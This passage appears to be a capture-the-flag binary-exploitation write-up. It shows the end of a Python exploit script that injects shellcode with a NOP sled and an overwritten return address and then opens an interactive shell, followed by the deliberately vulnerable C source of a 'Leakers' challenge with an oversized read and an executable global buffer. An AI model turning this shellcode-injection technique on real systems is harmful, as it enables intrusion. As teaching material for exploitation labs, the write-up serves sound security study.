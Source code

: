 ```python

input("injecting shellcode")
addr = struct.pack('<Q', int(addr, base=16))
p.send(b"\x90"*71 + sc + c + b"A"*8 + addr)
p.recv()

input("exiting the loop...")
p.send("\n")
p.recv()
p.interactive()
```

Regarding **ASLR**, we have to go one step further: we have `PIE` enabled, which means no more hardcoded global buffers. We also got `NX`, so no local buffer overflows. To solve this challenge we have to <u>leak the address of the global buffer</u>, which is executable, put there the shellcode and overwrite seip with its address. Source code of the challenge:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>

#define PS1SIZE 100
char ps1[PS1SIZE];

int main(){
  char echostring[100];
  int l;
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Welcome to Leakers!\n");
  if (mprotect((long)ps1 & 0xfffffffffffff000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC) == -1){
    puts("Failed mprotect!");
    return -1;
  }
  l = read(0, ps1, PS1SIZE);
  if (l>1){
    ps1[l-1]='\x00';
   }
  while(2){
    l = read(0, echostring, 200);
    if(l == 1 && (echostring[0] == '\n' || echostring[0] == '\x00')){
      puts("Bye!");
      break;
    }
    printf("%s> %s", ps1, echostring);
  }
```